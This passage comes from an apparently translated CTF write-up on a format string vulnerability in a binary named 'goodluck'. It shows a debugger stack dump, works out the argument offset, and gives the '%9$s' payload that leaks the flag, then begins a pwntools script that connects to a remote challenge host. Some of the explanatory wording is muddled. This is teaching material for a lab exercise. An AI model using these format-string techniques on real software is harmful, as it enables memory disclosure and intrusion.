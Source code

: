 ```shell
0x00007fffffffdb10│+0x08: 0x0000000031000001

0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)

0x00007fffffffdb20│ + 0x18: 0x0000000000602010 → &quot;You answered: \ ng&quot;
0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"

0x00007fffffffdb30│+0x28: "flag{11111111111111111"

0x00007fffffffdb38│+0x30: "11111111111111"

0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)

──────────────────────────────────────────────────────────────────────────────[ trace ]────

[#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")

[#1] 0x400890 → Name: main()

─────────────────────────────────────────────────────────────────────────────────────────────────





```



It can be seen that the offset on the stack corresponding to the flag is 5, and the offset is 4 except for the corresponding first behavior return address. In addition, since this is a 64-bit program, the first 6 parameters exist in the corresponding registers, and the fmt string is stored in the RDI register, so the offset of the address corresponding to the fmt string is 10. The order corresponding to `%order$s` in the fmt string is the order of the arguments after the fmt string, so we only need to type `%9$s` to get the contents of the flag. Of course, we have an easier way to use fmtarg in https://github.com/scwuaptx/Pwngdb to determine the offset of a parameter.


```shell

gef➤  fmtarg 0x00007fffffffdb28

The index of format argument : 10

```



Note that we have to break at printf.


#### Using the program


```python

from pwn import *

from LibcSearcher import *

goodluck = ELF('./goodluck')

if args['REMOTE']:

    sh = remote('pwn.sniperoj.cn', 30017)

else:

    sh = process('./goodluck')
```